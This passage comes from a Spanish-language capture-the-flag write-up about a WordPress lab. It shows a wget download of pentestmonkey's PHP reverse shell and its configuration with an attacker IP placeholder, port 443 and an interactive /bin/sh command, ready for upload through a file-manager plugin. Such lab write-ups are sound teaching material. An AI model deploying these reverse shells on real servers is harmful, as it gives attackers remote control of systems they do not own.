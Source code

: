Al parecer, este plugin nos permite subir archivos y directorios al **WordPress**:

<p align="center">
<img src="/assets/images/THL-writeup-academy/Captura9.png">
</p>

Vamos a subir una **Reverse Shell de PHP**, que para más rapidez y comodidad, usaremos la de **PentestMonkey**:
* <a href="https://github.com/pentestmonkey/php-reverse-shell" target="_blank">Repositorio de pentestmonkey: php-reverse-shell</a>

La descargamos con **wget**:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
--2025-02-27 16:23:22--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com) ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 5491 (5.4K) [text/plain]
Grabando a: «php-reverse-shell.php»

php-reverse-shell.php      100%[====================>]   5.36K  --.-KB/s    en 0.005s  

2025-02-27 16:23:22 (1.11 MB/s) - «php-reverse-shell.php» guardado [5491/5491]
```

Y la modificamos agregando nuestra IP y un puerto random:
```bash
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = 'Tu_IP';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

